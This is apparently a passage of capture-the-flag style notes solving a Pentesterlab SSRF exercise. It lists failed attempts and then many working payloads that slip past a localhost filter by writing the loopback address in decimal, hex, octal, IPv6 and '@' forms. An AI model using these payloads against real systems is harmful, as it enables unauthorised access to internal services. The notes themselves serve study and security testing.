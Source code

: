 #### 4.1. SSRF 3 (Pentesterlab)

Failed attempts:
```
$target/?url=http://localhost:1234 (Invalid URL)
$target/?url=http://127.0.0.1:1234 (Invalid URL)
```

Solution is to re-write `localhost` IP address under different formats.

Decimal IP - converts to `0.0.0.0`:
```
$target/?url=http://0:1234
$target/?url=http://0x00:1234
$target/?url=http://0000:1234
$target/?url=http://00000000000000000000:1234
```

Decimal IP - converts to `127.x.x.x`:
```
$target/?url=http://2130706433:1234
$target/?url=http://127.1:1234
$target/?url=http://127.127.127.127:1234
$target/?url=http://127.0.0.0:1234
$target/?url=http://127.x.y.z:1234
$target/?url=http://127.1.1.1:1234\@@127.2.2.2:1234/
$target/?url=http://0x7F000001:1234
$target/?url=http://0x7f.0x0.0x0.0x1
$target/?url=http://0177.0.0.01
$target/?url=http://0177.0.0.0x1
```

Other:
```
$target/?url=http://0.0.0.0:1234
$target/?url=http://172.17.0.56:1234
$target/?url=http://645dfd9b516b:1234 - where `645dfd9b516b` is the hostname
```

IPV6
```
$target/?url=http://[::1]:22
$target/?url=http://[0:0:0:0:0:FFFF:7F00:0001]:22
$target/?url=https://[2604:1380:1000:af00::1]
```

